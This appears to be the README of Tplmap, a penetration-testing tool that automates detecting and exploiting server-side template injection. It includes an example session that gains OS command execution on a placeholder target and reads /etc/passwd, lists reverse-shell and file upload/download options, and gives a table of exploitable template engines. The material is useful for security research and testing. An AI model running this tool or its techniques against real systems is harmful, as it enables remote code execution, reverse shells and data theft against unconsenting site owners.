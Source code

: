 Tplmap
======

Tplmap (short for _Template Mapper_) is a tool that automate the process of detecting and exploiting Server-Side Template Injection vulnerabilities (SSTI). This assists SSTI exploitation to compromise the application and achieve remote command execution on the operating system. 

The tool can be used by security researchers and penetration testers, to detect and exploit vulnerabilities and study the template injection vulnerability class.

The plugin architecture makes easy to extend the tool and support new template engines and sandbox break-out techniques. Part of the implemented techniques came from public research papers as James Kett's [Server-Side Template Injection: RCE For The Modern Web App][1] and other [works][4] while others have been [discovered][2] to [extend][3] this tool exploitation capabilities. 

Tplmap is able to detect and achieve arbitrary command execution in several scenarios as injections in code context and blind injections. The tool also detects code injections in several languages (e.g. Server-Side JavaScript Injection) exploiting _eval()_-like injections and generic template engines accepting arbitrary code.

Example
-------

```
$ ./tplmap.py -u 'http://www.target.com/app?id=7'
[+] Tplmap 0.2
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'id' is injectable
[+] Smarty plugin is testing rendering with tag '{*}'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
...
[+] Jade plugin is testing rendering with tag '\n= *\n'
[+] Jade plugin has confirmed injection with tag '\n= *\n'
[+] Tplmap identified the following injection point:

  GET parameter: id
  Engine: Jade
  Injection: \n= *\n
  Context: text
  OS: darwin
  Technique: render
  Capabilities:

   Code evaluation: yes, javascript code
   Shell command execution: yes
   File write: yes
   File read: yes
   Bind and reverse shell: yes

[+] Rerun tplmap providing one of the following options:

    --os-shell or --os-cmd to execute shell commands via the injection
    --upload LOCAL REMOTE to upload files to the server
    --download REMOTE LOCAL to download remote files
    --bind-shell PORT to bind a shell on a port and connect to it
    --reverse-shell HOST PORT to run a shell back to the attacker's HOST PORT
          
$ ./tplmap.py -u 'http://www.target.com/app?id=7' --os-shell

[+] Run commands on the operating system.

linux $ whoami
www-data
linux $ ls -al /etc/passwd
-rw-r--r--  1 root  wheel  5925 16 Sep  2015 /etc/passwd
linux $

```

Supported template engines
--------------------------

| Template engine      | Techniques         | Command execution | Code evaluation | File read | File write |
|----------------------|--------------------|-------------------|-----------------|-----------|------------|
| Mako                 |  render/blind      | yes               | Python          | yes       | yes        |
| Jinja2               |  render/blind      | yes               | Python          | yes       | yes        |
| Python (generic)     |  render/blind      | yes               | Python          | yes       | yes        |
| Nunjucks             |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Jade                 |  render/blind      | yes               | JavaScript      | yes       | yes        |
| doT                  |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Marko                |  render/blind      | yes               | JavaScript      | yes       | yes        |
| JavaScript (generic) |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Dust (<= dustjs-helpers@1.5.0) |  render/blind      | yes               | JavaScript      | yes       | yes        |
| Smarty (unsecured)   |  render/blind      | yes               | PHP             | yes       | yes        |
| PHP (generic)        |  render/blind      | yes               | PHP             | yes       | yes        |
| Freemarker           |  render/blind      | yes               | no              | yes       | yes        |
| Velocity             |  render/blind      | yes               | no              | yes       | yes        |
| Twig                 |  render            | no                | no              | no        | no         |
| Smarty (secured)     |  render            | no                | no              | no        | no         |
| Dust (> dustjs-helpers@1.5.0)  |  render            | no                | no              | no        | no         |

[1]: http://blog.portswigger.net/2015/08/server-side-template-injection.html
[2]: https://github.com/epinna/tplmap/issues/9
[3]: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine
[4]: https://artsploit.blogspot.co.uk/2016/08/pprce2.html
